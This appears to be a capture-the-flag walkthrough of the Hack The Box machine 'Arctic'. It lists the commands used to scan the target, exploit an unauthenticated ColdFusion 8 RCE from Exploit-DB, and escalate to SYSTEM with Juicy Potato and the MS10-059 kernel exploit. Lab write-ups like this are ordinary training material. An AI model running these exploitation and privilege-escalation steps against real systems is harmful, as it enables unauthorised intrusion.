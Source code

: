 # Arctic Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

### For this box I added the ``T5`` option to my scan because I knew that a common scan would not be enough.
### I also wanted to see the difference between T4 and T5 but it was minimal for me 

``nmap -sC -sV -oA arctic 10.10.10.11 -T5``

![image](https://user-images.githubusercontent.com/123066149/220932396-c5773103-b471-4d3c-b5e5-51a619a37150.png)

![image](https://user-images.githubusercontent.com/123066149/220932465-d8737908-3574-4299-b174-7ddb20ea4f36.png)


# ${{\color{purple}Initial Foothold}}\ $

### After a google search I realize that the FMTP protocol is an equivalent of a web server to store files :
### On this box it's on port 8500 :

![image](https://user-images.githubusercontent.com/123066149/220934868-d67af8f1-7bfd-42c2-94bd-8aed78e3953d.png)

### I go to the amin section :

![image](https://user-images.githubusercontent.com/123066149/220935241-2a89a9c0-525f-4bef-8e8e-e2ec52f89f6b.png)

And now, we can see and Adobe coldfusion version 8 :

![image](https://user-images.githubusercontent.com/123066149/220935941-ebb041fa-b10f-4455-a9f6-c15d441be454.png)

### As we can see there is an lfi :

![image](https://user-images.githubusercontent.com/123066149/220937986-a4f79541-5760-446e-9d10-bbad6ea21e6a.png)

``hashid 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03``

![image](https://user-images.githubusercontent.com/123066149/220938321-30ea552b-5772-4418-850c-42c99d6cd362.png)

# ${{\color{purple}Exploitation}}\ $

### I did not go further on this track because there is an unauthanticated rce :

![image](https://user-images.githubusercontent.com/123066149/220939537-b8df9049-69c7-471a-9366-ca3e58c38b88.png)

https://www.exploit-db.com/exploits/50057

``searchsploit -x cfm/webapps/50057.py``

![image](https://user-images.githubusercontent.com/123066149/220940043-4ce2e9e8-b0cf-4a97-aded-a453f317cc17.png)

``python 50057.py``

### After a small change in the exploit it works very well :

![image](https://user-images.githubusercontent.com/123066149/220940636-5282db37-173a-4033-a2ee-bf3669fd159a.png)


![image](https://user-images.githubusercontent.com/123066149/220940523-d890d54c-7026-4500-9090-03f317893185.png)


# ${{\color{purple}Privilege Escalation}}\ $

### Here I used two methods because I had practiced a lot on the first one :

### THE FIRST :

``Juicy_Potato_x86.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p whoami``

![1](https://user-images.githubusercontent.com/123066149/220948663-46fef5e7-f029-4b8b-b5ad-29232a382ca4.PNG)

``Juicy_Potato_x86.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p C:\Users\tolis\Desktop\exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/220949125-52a7f087-13c5-4030-b344-0b4b0fea7675.png)

### THE SECOND :

### No Hofix I will use a kernel exploit :

![image](https://user-images.githubusercontent.com/123066149/220949802-990f7813-a5da-4a64-874b-2a9fa392118a.png)

``python2.7 windows-exploit-suggester.py -i ../sysinfo.txt -d 2023-02-18-mssb.xls``

![image](https://user-images.githubusercontent.com/123066149/220950502-1d629eb2-411d-492d-875f-bba730e82827.png)

### After a redirection in a file and cleaning :

![image](https://user-images.githubusercontent.com/123066149/220951019-28ff53bb-d828-4d72-803b-7d32aecc4646.png)

### I used this resource for kernel exploit which is really very useful :

https://kakyouim.hatenablog.com/entry/2020/05/27/010807

### : This repo for the compiled exploit :

https://github.com/SecWiki/windows-kernel-exploits

### And these resources for kernel vulnerabilities on windows :

https://infosecwriteups.com/privilege-escalation-in-windows-380bee3a2842


https://github.com/gladiatx0r/Powerless


https://github.com/rasta-mouse/Watson

#### And thanks to these resources I have exploited a vuln kernel very quickly (MS10-059) :

![image](https://user-images.githubusercontent.com/123066149/220956467-fa85a83a-268f-49f4-aba8-33917974a4f6.png)


# ${{\color{purple}Points of Improvement}}\ $
